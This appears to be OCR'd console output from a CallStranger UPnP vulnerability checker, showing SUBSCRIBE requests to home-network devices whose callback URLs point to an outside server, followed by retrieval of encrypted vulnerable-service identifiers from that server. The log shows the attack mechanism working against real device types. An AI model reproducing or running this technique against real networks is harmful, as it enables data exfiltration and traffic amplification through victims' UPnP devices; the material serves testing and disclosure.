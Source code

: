     Calling stranger for  http://192.168.1.22:49154/upnp/event/ConnectionManagerNmsO with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNaIGyRbT5EdecQpW24gV91ivFeWp9wbRY1iDwwv97ffOeptG7yMGm_XUTfxnSgORfXKCvwCLnfqgyh-F5uwoUVO3edotw_WgJ600TBDPVojsj2XYdPiaDEUN29S6TYk-BO4AqCTq6SyZ6bo-DqjcjYw==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:49154/upnp/event/ConnectionManagerNmsO seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'Linux2.6/0.0 UPnP/1.0 PhilipsIntelSDK/1.4 DLNADOC/1.50', 'SID': 'uuid:C0A80120-0000-0000-0ECC-000000000014', 'TIMEOUT': 'Second-300', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:RenderingControl with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNXMZtJ2FXZUd6l9fPF4W6zyJ-jSIV7-YnsOAuS_3P8Qg_J59XfUp5l5SFUFzL5d_SyCFtTENW2sMrQZjGt5ZGZBMjmZfnNjNfmwpJwN9ZjKK_NCy4NRV69ipJG3E5evaeEbg4cOh2iwM_eCMyMdPzYD4MNBKaDFHG3QTUpPItjGdX169O3A77VaLH61OV0QSFmUcYro7yYCGRrj1B3G6Gl9vHPXUxfVZN5GqhgW2sHvZmTZUs7UKLVgzoEaS2Oy6h&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:RenderingControl seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:2c36537d-018d-4ea9-ae60-83063198d187', 'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:AVTransport with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNdiaamddL1mXEEsXlJQRwPTTyy1vsWMFfYS02X8or9Rk8oS_nQPzDJzDYhn2UrwRgdW1evZRz-lYAmFqZnyb6R6JH0kFpd5Ds36KpFssmKRwTUBaRv3LjYl5SDt7r4Q1TCeGuKRHAPOQ3nKv5xovNNtNz38k-escgkwW9oRBPQAFnLZxQPwh3eb8bfLUl_1nxwZsdPKfB8Fp_wOjNezjXql9ljwtkzMy2Rzas9D9T9AoydyV_I60qyjJVNHy4As6T&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:AVTransport seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:ad2d70f1-39c9-4a6c-83f8-a435ba8dbe51', 'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:ConnectionManager with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNSafCBN8pkwe2BMPrzwV1SzOUWciHVwYbPyTt1tut-PEkaQ2oDjS0yz0hd0t02pD35_DIkHhV_XRaGq5KMMdo6nnJ5sFjvhQ0uAilJF-4doO7DdWww7YNyZdo4258jmLQ2YRLSXodwQJXUlvVJN3pJIe4e9m9MjCbT214I61Ue14euKxx470mSpvpZCnVeQYnnUoS8SKkXibFVmJ-qpW4Ep3x8Xbb34GnSXe01OJpvf39uYZGsuKz0paeVgJTbnLl&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.24:2869/upnphost/udhisapi.dll?event=uuid:e4d56268-9801-43d2-b1cf-0dbf71d3c06c+urn:upnp-org:serviceId:ConnectionManager seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:51865133-d912-4c0c-9447-9615ef57f2e2', 'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Content-Length': '0'}
    
    
            Waiting 5 second for asynchronous request
    Successfully get services from server: http://20.42.105.45:80/CallStranger.php?c=getservices&token=nae9lqq3keg79l3qei9ahohvqe
    
    Encrypted vulnerable services:
    gAAAAABe3eWNny3BDg9OPz7WaHI8MiJpkALTuYhq7nY6l4raSduMcqumRKn4UlCXYs3sU9MgDhSi8-WtjR_X45asVQ3-r5fZ4ky6LR0WiG4BhqUTwmkf2615sCC3G4ZSfRGYq-G5qWVX
    gAAAAABe3eWNKQTdXOAlJaFdcir5kgI_v9PxZnpeWD-9IS6U2TqMM2aL1a4gg-JTL3CT5K8ZWAUBbEePDGqzqv7iiDzk41AMEiXILhED7lGiJ6wOO3LMSXNhamdQ37BLa8AoWmUuDGBxe-AEss0TC-QY8g7I67M68Q==
    gAAAAABe3eWNw-5CaKWtBdFlWBV6PQtV4Q8koFEr9nKRbAOAm-_f035IQl9uUNY6MdrneLHLi_tBKJ37i5OOLiBsOYADTUpYtsFWApBe3NPCQgJDh5omi2mmClmPiVCPdjUNu7-TYmiK
    gAAAAABe3eWNtLC8GIuICPflEhBEu8nFgxe12U0nnrJ_ewbmVwlrtu0yEqC6rWp3CuUgYdHSYalFv8dG5ETCsQBnx6PVdHbSzk6EGpYBwo8nvdXqJtdnvnjeveUz9Q4bhwZ4qDKKmiQb
    gAAAAABe3eWNJJsfohjZJRLZdiBF4Kvt1amVenr9a1Zi3oHhu_Xfomk_li6uJ9l0OeR6YVh2d6qbCF-t1uAmMVJfs5Tu7FWiNg15UXhyF8ubI_YZxtXTC4zpxHt7r2MdISJ8WwOFQ_J-f6E5yV6Bv8c4A1BBqfuD2Q==
    gAAAAABe3eWN0JCuymqONPp3Sbu9E_TUiUmXTZ5s777Hm2WsV7CO40kqjYGLoibSPew4uBpjel6Y_pOKPQOf3PsZwKG-PIC0G5jJiqEHmwRFI-Bd6ftBUIltwYGTtiBYII1QHfQ2c7mp
    gAAAAABe3eWNsB6Kv35geEsxbkkrAgED5So1wLhWURjcFwkyJ9h7w21BtUmbBmzAQ_YTgN-168MatiFy-skmKyTcleLkVKn5iv6xhEcY5DGiH_MJbeeZ77_AmgM_UF4dqqXsIdHJmROk